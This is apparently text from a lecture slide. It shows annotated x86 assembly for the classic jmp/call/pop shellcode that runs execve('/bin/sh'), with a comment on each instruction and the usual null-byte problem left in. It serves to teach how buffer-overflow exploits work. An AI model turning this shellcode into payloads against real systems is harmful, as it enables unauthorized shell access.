

main:
  jmp  main+0x2f                 # (5)
  popl %ebx                      # (1) get string into ebx
  movb $0x0, 0x7(%ebx)           # (4) null terminate string
  movl %ebx, 0x8(%ebx)           # (3) store address of string
  movl $0x0, 0xc(%ebx)           # (7) null terminate array
  movl $0x0, %edx                # (5) put a null in edx
  leal 0x8(%ebx), %ecx           # (3) put array in ecx
  movl $0xb, %eax                # (5) set syscall number for execve
  int  $0x80                     # (2) trap to kernel
  movl $0x0, %ebx                # (5) set exit status of 0
  movl $0x1, %eax                # (5) set syscall number for exit
  int  $0x80                     # (2) trap to kernel
  call main+0x5                  # (5)
  .string "/bin/sh"
.globl main
  .type   main, @function